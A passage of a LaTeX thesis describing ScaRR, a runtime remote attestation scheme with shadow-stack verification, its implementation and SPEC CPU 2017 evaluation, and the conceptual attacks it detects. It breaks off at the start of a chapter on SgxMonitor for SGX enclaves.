%As we will discuss in Section~\ref{ssec:security+privacy+consideration}, 
%This schema provides two advantages: 
%\begin{enumerate*}[label=(\roman*)]
%	\item it allows the \emph{Verifier} to detect an attack before the 
%\emph{Prover} ends its execution, 
%	\item it provides clues about the attack mounted.
%\end{enumerate*}

%We represent a \emph{LoA} by using a fixed-width hash value because we do not 
%know their number of \emph{edges} a priori.
%The \emph{Prover} elaborates the input while sending a list of partial reports 
%(from $P_1$ to $P_n$) to the \emph{Verifier}, which represent the 
%\emph{Prover} 
%runtime status (\ie its execution path).
%Since the communication between the \emph{Prover} and the \emph{Verifier} runs 
%over a reliable channel, the \emph{Verifier} receives all reports in order.

%\subsection{Report Verification (Step 5)}  
\textbf{(5) Report Verification.}  
In runtime RA, the \emph{Verifier} has two different purposes: verifying 
whether the running application is still the original one and whether the 
execution paths traversed by it are the expected ones. The first purpose, which 
we assume to be already implemented in the 
system~\cite{costan2016intel,winter2008trusted}, can be achieved through a 
static RA applied on the \emph{Prover} software stack. On the contrary, the 
second purpose is the main focus in our design of the ScaRR schema. 

As soon as the \emph{Verifier} receives a partial report $P_i$, it first 
performs a formal integrity check by considering its fingerprint 
$F_K(R||N||i)$. Then, it considers the \emph{online measurements} sent within 
the report and performs the following checks: 
\begin{enumerate*}[label=(C\arabic*)]
	\item whether the \emph{online measurements} are the expected ones (\ie it 
	compares the received \emph{online measurements} with the offline ones 
	stored in the \emph{Measurements DB}),
	\item whether the destination \emph{checkpoint} of each \emph{measurement} 
	is equal to the source \emph{checkpoint} of the following one, and
	\item whether the \emph{LoAs} are coherent with the stack status by 
	mounting a shadow stack.
\end{enumerate*}
If one of the previous checks fails, the \emph{Verifier} notifies an anomaly 
and it will reject the output generated by the \emph{Prover}.

All the above-mentioned checks performed by the \emph{Verifier} are lightweight 
procedures (\ie a lookup in a hash map data structure and a shadow stack 
update). The speed of the second verification mechanism depends on the number 
of procedure calls and procedure returns found for each \emph{measurement}. 
Thus, also the second requirement for applying runtime RA on complex systems is 
satisfied (\ie keeping a fast verification phase). Once again, this is a 
consequence of the ScaRR control-flow model since the fragmentation of the 
execution paths allows both \emph{Prover} and \emph{Verifier} to work on a 
small amount of data. Moreover, since the \emph{Verifier} immediately validates 
a report as soon as it receives a new one, it can also detect an attack even 
before the \emph{Application A} has completed the processing of the input. 

\subsection{Shadow Stack}
To improve the defences provided by ScaRR, we introduce a shadow stack 
mechanism on the \emph{Verifier} side.
To illustrate it, we refer to the program shown in 
Figure~\ref{fig:trace-paths}, which contains only two functions:
\texttt{main()} and \texttt{a()}. Each line of the program is a BBL and, in 
particular: the first BBL (\ie \emph{S}) and the last BBL (\ie \emph{E}) of the 
\texttt{main()} function are a \emph{beginning thread} and \emph{end thread} 
\emph{checkpoints}, respectively; the function \texttt{a()} contains a function 
call to \texttt{printf()}, which is an \emph{exit-point}. 
According to the ScaRR control-flow model, the \emph{offline measurements} are 
the following ones:
\begin{align*}
(S,C,H_1) &\Rightarrow [(M_1,A_1)], \\
(C,C,H_2) &\Rightarrow [(A_2,M_2), (M_3,A_1)], \\
(C,E,H_3) &\Rightarrow [(A_2,M_4)].
\end{align*}
The significant BBLs we consider for generating the \emph{LoAs} are: 
\begin{enumerate*}[label=(\roman*)]
	\item the ones connecting the BBL S to the \emph{checkpoint} C,
	\item the ones connecting two \emph{checkpoints} C, and
	\item the ones to move from the \emph{checkpoint} C to the last BBL E.
\end{enumerate*}    

\begin{figure}
	\centering
	
\includegraphics[width=0.6\textwidth]{fig_c4/trace-paths-example.pdf}
	\caption[ScaRR shadow stack example.]{Illustrative example to explain the 
	shadow 
	stack on the ScaRR 
	\emph{Verifier}.}
	\label{fig:trace-paths}
\end{figure}

%We omitted eve5ntually branch instructions in this example. 
In this scenario, an attacker may hijack the return address of the function 
\texttt{a()} in order to jump to the BBL $M_3$.
If this happens, the \emph{Prover} produces the following \emph{online 
measurements}:
$$
(S,C,H_1) \rightarrow (C,C,H_2) \rightarrow (C,C,H_2) \rightarrow \dots.
$$
Although generated after an attack, those measurements are still compliant with 
the checks $(C1)$ and $(C2)$ of the \emph{Verifier}. Thus, to detect this 
attack, we introduce a new relation (\ie \texttt{ret\_to}) to illustrate the 
link between two edges. The \emph{Measurements Generator} computes all the 
\texttt{ret\_to} relations during the \emph{Offline Program Analysis} and saves 
them in the \emph{Measurements DB} using the following notation:
\begin{align*}
(A_2,M_2)~\texttt{ret\_to}~(M_1,A_1), \\
(A_2,M_4)~\texttt{ret\_to}~(M_3,A_1).
\end{align*}

Figure~\ref{fig:shadow-stack} shows how the \emph{Verifier} combines all these 
information to build a remote shadow stack.
%Figure~\ref{fig:shadow-stack-ok} shows a correct sequence of \emph{LoA}s. 
At the beginning, the shadow stack is empty (\ie no function has been invoked 
yet). Then, according to the \emph{online measurement} $(S,C,H_1)$, the 
\emph{Prover} has invoked the \texttt{main()} function passing through the edge 
$(M_1,A_1)$, which is pushed on the top of the stack by the \emph{Verifier}. 
Then, the \emph{online measurement} $(C,C,H_2)$ indicates that the execution 
path exited from the function \emph{a()} through the edge $(A_2,M_2)$, which is 
in relation with the edge on the  top of the stack and therefore is valid.
Moving forward, the \emph{Verifier} pops from the stack and pushes the edge 
$(M_3,A_1)$, which corresponds to the second invocation of the function 
\texttt{a()}.
At this point, the third measurement $(C,C,H_2)$ indicates that the 
\emph{Prover} exited from the function \texttt{a()}
through the edge $(A_2,M_2)$, which is not in relation with $(M_3,A_1)$. Thus, 
the  \emph{Verifier} detects the attack and triggers an alarm. 

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.6\textwidth]{fig_c4/shadow-stack-no.pdf}
	\caption{Implementation of the shadow stack on the ScaRR \emph{Verifier}.}
	\label{fig:shadow-stack}
\end{figure}

\section{Implementation}
\label{sec:implementation_scarr}

Here, we provide the technical details of the ScaRR schema and, in particular, 
of the \emph{Measurements Generator} 
(Section~\ref{ssec:measurements_generator}) and of the \emph{Prover} 
(Section~\ref{ssec:prover}). 

%\subsection{Application CFG (Step 1)} 
\subsection{Measurements Generator}
\label{ssec:measurements_generator}
The \emph{Measurements Generator} is implemented as a compiler, based on 
LLVM~\cite{lattner2004llvm} and on the CRAB framework~\cite{gange2016abstract}. 
Despite this approach, it is also possible to use frameworks to lift the binary 
code to LLVM intermediate-representation (IR)~\cite{mcsema}.

The \emph{Measurements Generator} requires the program source code to perform 
the following operations:
\begin{enumerate*}[label=(\roman*)]
	\item generating the \emph{offline measurements}, and 
	\item detecting and instrumenting the control-flow events.
\end{enumerate*}
During the compilation, the \emph{Measurements Generator} analyzes the LLVM IR 
to identify the control-flow events and generate the \emph{offline 
measurements}, while it uses the CRAB LLVM framework to generate the CFG, since 
it provides a heap abstract domain that resolves indirect forward jumps.
Again during the compilation, the \emph{Measurements Generator} instruments 
each control-flow event to invoke a tracing function 
which is contained in the trusted anchor.
To map LLVM IR BBLs to assembly BBLs, we remove the optimization flags and we 
include dummy code,
which is removed after the compilation through a binary-rewriting tool.
%The updates on the LLVM, that enable the analysis and instrumentation, require 
To provide the above-mentioned functionalities, we add around $3.5$K lines of 
code on top of CRAB and LLVM $5.0$.

\subsection{Prover}
\label{ssec:prover}
The \emph{Prover} is responsible for running the monitored application, 
generating the application \emph{online measurements} and sending the partial 
reports to the \emph{Verifier}. 
To achieve the second aim, the \emph{Prover} relies on the architecture 
depicted in Figure~\ref{fig:architecture_scarr}, which encompasses several 
components 
belonging either to the user-space (\ie \emph{Application Process} and 
\emph{ScaRR Libraries}) or to the kernel-space (\ie \emph{ScaRR 
sys\_addaction}, \emph{ScaRR Module}, and \emph{ScaRR sys\_measure}). 

Each component works as follows:  
\begin{itemize}
	\item \emph{Application Process} - the process running the monitored 
	application, which is equipped with the required instrumentation for 
	detecting control-flow events at runtime.
	\item \emph{ScaRR Libraries} - the libraries added to the original 
	application to trace control-flow events and \emph{checkpoints}.
	\item \emph{ScaRR sys\_addaction} - a custom kernel syscall used to trace 
	control-flow events.
	\item \emph{ScaRR Module} - a module that keeps trace of the \emph{online 
	measurements} and of the partial reports. It also extracts the BBL labels 
	from their runtime addresses, since the ASLR protection changes the BBLs 
	location at each run.
	\item \emph{ScaRR sys\_measure} - a custom kernel syscall used to generate 
	the \emph{online measurements}. 
\end{itemize}
When the \emph{Prover} receives a challenge, it starts the execution of the 
application and creates a new \emph{online measurement}.
During the execution, the application can encounter \emph{checkpoints} or 
control-flow events, both hooked by the instrumentation.
Every time the application crosses a control-flow event, the \emph{ScaRR 
Libraries}
invoke the \emph{ScaRR sys\_addaction} syscall to save the new edge in a buffer 
inside the kernel-space.
While, every time the application crosses a \emph{checkpoint}, the \emph{ScaRR 
Libraries}
invoke the \emph{ScaRR sys\_measure} syscall to save the \emph{checkpoint}
in the current \emph{online measurement}, calculate the hash of the edges saved 
so far, and,
finally, store the \emph{online measurement} in a buffer located in the 
kernel-space.
When the predefined number of \emph{online measurements} is reached, 
the \emph{Prover} sends a partial report to the \emph{Verifier} and starts 
collecting new \emph{online measurements}.
The \emph{Prover} sends the partial report by using a dedicated kernel thread.
The whole procedure is repeated until the application finishes processing the 
input of the \emph{Verifier}. 

The whole architecture of the \emph{Prover} relies on the kernel as a trusted 
anchor, since we find it more efficient in comparison to other commercial 
trusted platforms, such as SGX and TrustZone, but other approaches can be also 
considered (Section~\ref{sec:discussion_scarr}). To develop the kernel side of 
the 
architecture, we add around $200$ lines of code to a Kernel version 
v$4.17$-rc$3$.
We also include the Blake2 source~\cite{Aumasson2014,blake2}, which is faster 
and provides high cryptographic security guarantees for calculating the hash of 
the \emph{LoAs}.
\begin{figure}[t]
	\centering
	
\includegraphics[width=0.7\textwidth]{fig_c4/architecture.pdf}
	\caption{Internal architecture of the \emph{Prover}.}
	\label{fig:architecture_scarr}
\end{figure}

\section{Evaluation}
\label{sec:evaluation_scarr_scarr}
We evaluate ScaRR from two perspectives.
First, we measure its performance focusing on: attestation speed 
(Section~\ref{ssec:attestation-speed}), verification speed 
(Section~\ref{ssec:verification-speed}) and network impact 
(Section~\ref{ssec:network-impact}).
Then, we discuss ScaRR security guarantees 
(Section~\ref{ssec:security+privacy+consideration}). 

We obtained the results described in this section by running the bench-marking 
suite SPEC CPU 2017 over a Linux machine
equipped with an Intel i7 processor and 16GB of memory~\footnote{We did not 
manage to map assembly BBL addresses to LLVM IR for 519.lbm\_r and 
520.omnetpp\_r.}.
We instrumented each tool to detect all the necessary control-flow events, we 
then extracted the \emph{offline measurements} and we ran each experiment to 
analyze a specific performance metrics. 

\subsection{Attestation Speed}
\label{ssec:attestation-speed}
We measure the attestation speed as the number of \emph{online measurements} 
per second generated by the \emph{Prover}. 
Figure~\ref{fig:attesetation_speed} shows the average attestation speed and the 
standard deviation for each experiment of the SPEC CPU 2017. 
More specifically, we run each experiment 10 times, calculate the number of 
\emph{online measurements} generated per second in each run, and we compute the 
final average and standard deviation. 
Our results show that ScaRR has a range of attestation speed which goes from 
$250$K (510.parest) to over $400$K (505.mcf) of \emph{online measurements} per 
second. This variability in performance depends on the complexity of the single 
experiment and on other issues, such as the file loading. Previous works prove 
to have an attestation speed around $20K$/ $30K$ of control-flow events per 
second~\cite{aberadiat,abera2016c}. Since each \emph{online measurement} 
contains at least a control-flow event, we can claim that ScaRR has an 
attestation speed at least $10$ times faster than the one offered by the 
existing solutions.


\subsection{Verification Speed}
\label{ssec:verification-speed}
During the validation of the partial reports, the \emph{Verifier} performs a 
lookup against the \emph{Measurements DB} and an update of the shadow stack. 
To evaluate the overall performance of the \emph{Verifier}, we consider the 
verification speed as the maximum number of \emph{online measurements} verified 
per second. 
To measure this metrics, we perform the following experiment for each SPEC tool:
first, we use the \emph{Prover} to generate and save the \emph{online 
measurements} of a SPEC tool; 
then, the \emph{Verifier} verifies all of them without involving any element 
that might introduce delay (\eg network). 
In addition, we also introduce a digital fingerprint based on 
AES~\cite{Stallings:2002:AES:763194.763196} to simulate an ideal scenario in 
which the \emph{Prover} is fast. 
We perform the verification by loading the \emph{offline measurements} in an 
in-memory hash map and performing the shadow stack.
Finally, we compute the average verification speed of all tools.

According to our experiments, the average verification speed is 2M of 
\emph{online measurements} per second, with a range that goes from $1.4$M to 
$2.7$M of \emph{online measurements} per second. This result outperforms 
previous works in which the authors reported a verification speed that goes 
from $110$~\cite{Dessouky:2018:LLH:3240765.3240821} to $30$K~\cite{aberadiat} 
of control-flow events per second. As for the attestation speed, we recall that 
each \emph{online measurement} contains at least one control-flow event.

The performance of the shadow stack depends on the number of 
procedure calls and procedure returns found during the generation of 
\emph{online measurements} in the \emph{Online Program Analysis} phase. 
To estimate the impact on the shadow stack, we run each experiment of the SPEC 
CPU 2017 tool and count the number of procedure calls and procedure returns. 
Figure~\ref{fig:functioncall} shows the average number of the above-mentioned 
variables found for each experiment. 
\begin{figure}[t]
	\centering
	\begin{subfigure}[t]{0.45\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c4/attesetation_speed.png}
		\caption{Average attestation speed measured as number of online 
			measurements per second.}
		\label{fig:attesetation_speed}
	\end{subfigure} 
	\hfill
	\begin{subfigure}[t]{0.45\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c4/functioncall.png}
		\caption{Average number of procedure calls and procedure returns found 
		during the \emph{Online Program Analysis} of the SPEC CPU 2017 tools.}
		\label{fig:functioncall}
	\end{subfigure}
	\caption[ScaRR evaluation.]{ScaRR evaluation of attestation speed, and 
	number the procedures invoked.}
	\label{fig:scarr_evaluation}
\end{figure} 
For some experiments (\ie 505.mcf and 544.nab), the average number is almost 
one since they include some recursive algorithms that correspond to small 
\emph{LoAs}. If the average length of the \emph{LoA}s tends to one, ScaRR 
behaves similarly to other remote RA solutions that are based on cumulative 
hashes~\cite{abera2016c,aberadiat}. Overall, Figure~\ref{fig:functioncall} 
shows that a median of push/pop operations is less than $4$, which implies a 
fast update.
Combining an in-memory hash map and a shadow stack allows ScaRR to perform a 
fast verification phase.


%\subsection{Network Impact and Mitigation (Step 4 and Step 5)}
\subsection{Network Impact and Mitigation}
\label{ssec:network-impact}
A high sending rate of partial reports from the \emph{Prover}
might generate a network congestion and therefore affect the verification phase.
To reduce network congestion and improve verification speed, we perform an 
empirical measurement of 
the amount of data (\ie MB) sent on a local network with respect to the 
verification speed by applying different settings.
The experiment setup is similar to Section~\ref{ssec:verification-speed}, but 
the \emph{Prover} and the \emph{Verifier} are connected through an Ethernet 
network with a bandwidth of $10$Mbit/s.
At first, we record $1$M of \emph{online measurements} for each SPEC CPU 2017 
tool.
Then, we send the partial reports to the \emph{Verifier} over a TCP connection,
each time adopting a different approach among the following ones:
\emph{Single}, \emph{Batch}, \emph{Zip}~\cite{zip}, \emph{Lzma}~\cite{lzma}, 
\emph{Bz2}~\cite{bz2} and \emph{ZStandard}~\cite{zstandard}. 
The results of this experiment are shown in 
Figure~\ref{fig:network_performance}. 
In the first two modes (\ie \emph{Single} and  \emph{Batch}),
we send a single \emph{online measurement} and $50$K
\emph{online measurements} in each partial report, respectively.
As shown in the graph, both approaches generate a high amount of network 
traffic (around $80$MB),
introducing a network delay which slows down the verification speed.
For the other four approaches, each partial report still contains $50$K 
\emph{online measurements},
but it is generated through different compression algorithms.
All the four algorithms provide a high compression rate (on average over 
$95$\%) with a consequent reduction in the network overload.
However, the algorithms have also different compression and decompression 
delays, which affect the verification speed.
The \emph{Zip} and \emph{ZStandard} show the best performances with $1.2$M of 
\emph{online measurements}/s and $1.6$M of \emph{online measurements}/s, 
respectively, while \emph{Bz2} ($30$K of online measurements/s) and \emph{Lzma} 
($0.4$M of online measurements/s) are the worst ones. 
The number of \emph{online measurements} per partial report might introduce a 
delay in
detecting attacks and its value depends on the monitored application.
We opted for $50$K because the SPEC CPU tools generate a high number of 
\emph{online measurements} overall.
However, this parameter strictly depends on the monitored application.
This experiment shows that we can use compression algorithms to mitigate the 
network congestion and keep a high verification speed.

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.5\textwidth]{fig_c4/network_performance.png}
	\caption[ScaRR network traffic evaluation.]{Comparison of different 
	approaches for generating partial repors in terms of network traffic and 
	verification speed.}
	\label{fig:network_performance}
\end{figure} 

\subsection{Attack Detection}
\label{ssec:security+privacy+consideration}
Here, we describe the security guarantees introduced by ScaRR. 

\textbf{Code Injection.}
In this scenario, an attacker loads malicious code, \eg \emph{Shellcode}, into 
memory and executes it by exploiting a memory corruption 
error~\cite{smith1997stack}.
A typical approach is to inject code into a buffer which is under the attacker 
control.
The adversary can, then, exploit vulnerabilities (\eg buffer overflows) to 
hijack the program control-flow towards the shellcode (\eg by corrupting a 
function return address).

When a W$\oplus$X protection is in place, this attempt will generate a memory 
protection error, since the injected code is placed in a writable memory area 
and it is not executable. In case there is no W$\oplus$X enabled, the attack 
will generate a wrong \emph{LoA} detected by the \emph{Verifier}.

Another strategy might be to overwrite a node (\ie a BBL) already present in 
memory. 
Even though this attempt is mitigated by W$\oplus$X, as executable memory 
regions are not writable, it is still possible to perform the attack by 
changing the memory protection attributes through the operating system 
interface (\eg the \texttt{mprotect} system call in Linux), which makes the 
memory area writable. 
The final result would be an override of the application code. Thus, the static 
RA of ScaRR can spot the attack.

\textbf{Return-oriented Programming.}
Compared to previous attacks, the code-reuse ones are more challenging since 
they do not inject new nodes, but they simply reorder legitimate BBLs. Among 
those, the most popular attack~\cite{shacham2007geometry} is 
ROP~\cite{carlini2014rop}, which
exploits small sequences of code (gadgets) that end with a \texttt{ret} 
instruction. Those gadgets already exist in the programs or libraries code, 
therefore, no code is injected. The ROP attacks are Turing-complete in 
nontrivial programs~\cite{carlini2014rop}, and common defence mechanisms are 
still not strong enough to definitely stop this threat.

To perform a ROP attack, an adversary has to link together a set of gadgets 
through the so-called ROP chain, which is a list of gadget addresses. A ROP 
chain is typically injected through a stack overflow vulnerability, by writing 
the chain so that the first gadget address overlaps a function return address. 
Once the function returns, the ROP chain will be triggered and will execute the 
gadget in sequence. Through more advanced techniques such as stack 
pivoting~\cite{PracticalROP}, ROP can also be applied to other classes of 
vulnerabilities, \eg heap corruption.
Intuitively, a ROP attack produces a lot of new edges to concatenate all the 
gadgets, which means invalid \emph{online measurements} that will be detected 
by ScaRR at the first \emph{checkpoint}. 

\textbf{Jump-oriented Programming.}
An alternative to ROP attacks are the JOP 
ones~\cite{yao2013jop,bletsch2011jump}, which exploit special gadgets based on 
indirect \texttt{jump} and \texttt{call} instructions.
ScaRR can detect those attacks since they deviate from the original 
control-flow.

\textbf{Function Reuse Attacks.}
Those attacks rely on a sequence of subroutines, that are called in an 
unexpected order, \eg through virtual functions calls in C++ objects. ScaRR can 
detect these attacks, since the ScaRR control-flow model considers both the 
calling and the target addresses for each procedure call. Thus, an unexpected 
invocation will result in a wrong \emph{LoA}.
For instance, in Counterfeit Object-Oriented Programming (COOP) 
attacks~\cite{schuster2015counterfeit}, an attacker uses a loop to invoke a set 
of functions by overwriting a \emph{vtable} and invoking functions from 
different calling addresses generates unexpected \emph{LoAs}.

\section{Discussion}
\label{sec:discussion_scarr}
In this section we discuss limitations and possible solutions for ScaRR.

\textbf{Control-flow graph.}
Extracting a complete and correct CFG through static analysis is challenging.
While using CRAB as abstract domain framework, we experienced some problems
to infer the correct forward destinations in case of virtual functions. Thus, 
we will investigate new techniques to mitigate this limitation.

\textbf{Reducing context-switch overhead.}
%\todo{add discussion on process trace.}
ScaRR relies on a continuous context-switch between user-space and kernel-space.
As a first attempt, we evaluated SGX as a trusted platform, but we found out 
that the overhead was even higher due to SGX clearing the Translation-Lookaside 
Buffer (TLB)~\cite{stravers2013translation} at each enclave exit.
This caused frequent page walks after each enclave call.
A similar problem was related to the Page-Table Isolation 
(PTI)~\cite{watson2018capability} mechanism in the Linux kernel, which protects 
against the Meltdown vulnerability. 
With PTI enabled, TLB is partially flushed at every context switch, 
significantly increasing the overhead of syscalls.
New trusted platforms have been designed to overcome this problem, but, since 
they mainly address embedded software, they are not suitable for our purpose.
We also investigated technologies such as Intel 
PT~\cite{Ge:2017:GGC:3037697.3037716} to trace 
control-flow events at hardware level, but this would have bound ScaRR to a 
specific proprietary technology and we also found that previous 
works~\cite{Ge:2017:GGC:3037697.3037716,Hu:2018:EUC:3243734.3243797} 
experienced information loss.

\textbf{Physical attacks.}
Physical attacks are aimed at diverting normal control-flow such that the 
program is compromised, but the computed measurements are still valid. Trusted 
computing and RA usually provide protection against physical attacks. In our 
work, we mainly focus on runtime exploitation, considering that ScaRR is 
designed for a deployment on virtual machines. Therefore, we assume to have an 
adversary performing an attack from a remote location or from the user-space 
and the hosts not being able to be physically compromised. As a future work, we 
will investigate new solutions to prevent physical attacks.

\textbf{Data-flow attestation.}
ScaRR is designed to perform runtime RA over a program CFG. Pure data-oriented 
attacks might force the program to execute valid, but undesired paths without 
injecting new edges. To improve our solution, we will investigate possible 
strategies to mitigate this type of attacks, considering the availability of 
recent tools able to automatically run this kind of exploit~\cite{hu2016data}. 

\textbf{Toward a full semantic RA.}
We will investigate new approaches to validate series of \emph{online 
measurements} by using runtime abstract 
interpretation~\cite{Ge:2017:GGC:3037697.3037716,Hu:2018:EUC:3243734.3243797,Liu:2018:RED:3243734.3243826}.

\chapter{A Novel Runtime Remote Attestation Schema for SGX Enclaves} % 
%Main chapter title
\label{chp:runtime-protection-trusted} 


In this chapter, we discuss SgxMonitor, a novel runtime remote attestation for 
SGX enclaves.
We evaluate the properties of SgxMonitor in terms of usability and security 
guarantees.

To assess whether SgxMonitor is usable, we deployed it across five use 
cases (Section~\ref{sec:evaluation}):
\begin{enumerate*}[label=(\roman*)]
	\item Signal Contact Discovery Service~\citep{signalrepo} 
	(\textsf{Contact}), a privacy-preserving service that finds new contacts in 
	the Signal app~\citep{signalapp};
	\item \textsf{libdvdcss}~\citep{libdvdcss}, a portable DRM library used by 
	the VLC media player \citep{videolan};
	\item \textsf{StealthDB} \citep{stealthdb}, a plugin for 
	PostgreSQL \citep{momjian2001postgresql} that relies on SGX;
	\item \textsf{SGX-Biniax2} \citep{bauman2016case}, a video game 
	ported to SGX; and
	\item a \textsf{unit test} specifically designed to stress specific 
	enclave behaviors not covered by the other use cases (\ie exception 
	handling).
\end{enumerate*}
In particular, we measured micro- and macro-benchmarks, code symbolic
execution and static analysis code coverage, and false positive rates.

To assess whether SgxMonitor is secure, we evaluate
it against SnakeGX~\citep{snakegx}, a novel data-only malware for SGX
enclaves, and specifically-crafted security benchmarks. 
Finally, we discuss information leakage our remote attestation protocol may
introduce and outline mitigation.

Our evaluation show that 
\begin{enumerate*}[label=(\roman*)]
	\item the performance of SgxMonitor is in line with the state-of-the-art
	remote attestation schema in terms of attestation speed (a median of $260$K 
	\emph{actions}/s);
	\item the deployment of SgxMonitor does not affect the final user 
	experience (\eg we smoothly played a DVD on VLC and a video game, and 
	measured an average $1.6$x slowdown on PostgreSQL);
	\item we can effectively model the enclave behaviors with a 96\% code
	coverage and \emph{zero} false positive;
	\item we identify the attacks of SnakeGX and the security benchmarks as 
	anomalous execution
	flows without leaking information.
\end{enumerate*}

In summary, we make the following contributions:
\begin{itemize}
